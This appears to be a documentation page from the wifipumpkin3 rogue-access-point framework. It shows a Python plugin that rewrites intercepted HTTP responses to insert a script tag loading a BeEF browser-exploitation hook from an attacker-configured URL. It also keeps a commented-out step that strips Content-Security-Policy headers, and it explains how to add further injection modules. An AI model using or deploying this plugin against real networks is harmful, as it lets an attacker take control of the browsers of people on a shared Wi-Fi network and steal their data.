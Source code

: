 ### Example from Wp3 with Argummets 
``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup


class beef(BasePumpkin):
    meta = {
        "_name": "beef",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return beef.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.urlhook = self.config.get("set_beef", "hook")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.urlhook
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data

```

You can easily implement a module to inject data into pages creating a python file in directory "plugins/extension/" and run `make setup` that on next start the prompt, the plugin is there.




### Developing Plugin MITM Attack
